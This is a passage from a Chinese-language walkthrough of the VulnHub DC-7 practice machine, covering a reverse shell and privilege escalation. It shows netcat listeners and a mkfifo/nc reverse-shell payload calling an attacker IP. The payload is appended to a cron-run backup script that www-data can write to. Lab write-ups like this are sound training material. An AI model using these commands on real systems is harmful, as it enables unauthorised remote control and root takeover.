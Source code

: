 kali 监听
```
nc -lvp 4444
```

点击 preview,成功回弹

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC7/16.png)

---

# 后期-提权

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```
cd /opt/scripts/
ls -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC7/17.png)

可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

kali 监听
```
nc -lvp 5555
```

写入 payload
```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

耐心等待几分钟,就反弹回来了

